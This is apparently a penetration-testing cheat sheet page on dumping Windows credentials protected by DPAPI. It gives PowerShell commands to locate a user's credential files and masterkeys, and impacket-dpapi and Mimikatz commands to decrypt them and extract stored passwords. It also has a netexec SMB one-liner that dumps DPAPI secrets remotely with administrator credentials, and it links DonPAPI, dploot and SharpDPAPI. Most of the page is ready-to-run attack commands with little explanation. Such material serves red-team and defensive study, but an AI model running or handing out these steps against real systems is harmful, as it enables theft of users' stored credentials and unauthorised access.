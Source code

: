 ```yaml
---
description: Credentials Dumping from Data Protection API
---
```


# DPAPI

## From Low Users

### Manual Approach

Locating credential files:

{% code overflow="wrap" %}
```powershell
dir /A C:\Users\yuyudhn\AppData\Local\Microsoft\Credentials\
dir /A C:\Users\yuyudhn\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Force C:\Users\yuyudhn\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Force C:\Users\yuyudhn\AppData\Roaming\Microsoft\Credentials\
```
{% endcode %}

Locating masterkeys:

```powershell
dir /A C:\Users\yuyudhn\AppData\Roaming\Microsoft\Protect\
dir /A C:\Users\yuyudhn\AppData\Local\Microsoft\Protect\
Get-ChildItem -Force C:\Users\yuyudhn\AppData\Roaming\Microsoft\Protect\
Get-ChildItem -Force C:\Users\yuyudhn\AppData\Local\Microsoft\Protect\
```

Usually, the structure is like this:

{% code overflow="wrap" %}
```
C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID
```
{% endcode %}

Download all credential files and masterkeys to attacker machine. And then extract the credentials using impacket-dpapi.

Decrypt masterkey

{% code overflow="wrap" %}
```bash
impacket-dpapi masterkey -file $masterkey -sid $SID -password Password1213!
```
{% endcode %}

Or if you have the backup key:

```bash
impacket-dpapi masterkey -file $masterkey -sid $SID -pvk key.pvk
```

Grab credentials:

{% code overflow="wrap" %}
```bash
impacket-dpapi credential -file $credsfile -key $decryptedkey
```
{% endcode %}

### Mimikatz

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"dpapi::masterkey /in:C:\Users\yuyudhn\AppData\Roaming\Microsoft\Protect\$SID\$GID /sid:$SID /password:Password1337 /protected" "exit"'
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"dpapi::cred /in:C:\Users\yuyudhn\AppData\Roaming\Microsoft\Credentials\$credsfile /masterkey:$decryptedkey"'
```
{% endcode %}

## From Administrator

{% code overflow="wrap" %}
```bash
netexec smb target.local -u Administrator -p Password123 --local-auth --dpapi
```
{% endcode %}

## Other tools

* [**DonPAPI**](https://github.com/login-securite/DonPAPI)
* [**dploot**](https://github.com/zblurx/dploot)
* [**SharpDPAPI**](https://github.com/GhostPack/SharpDPAPI)
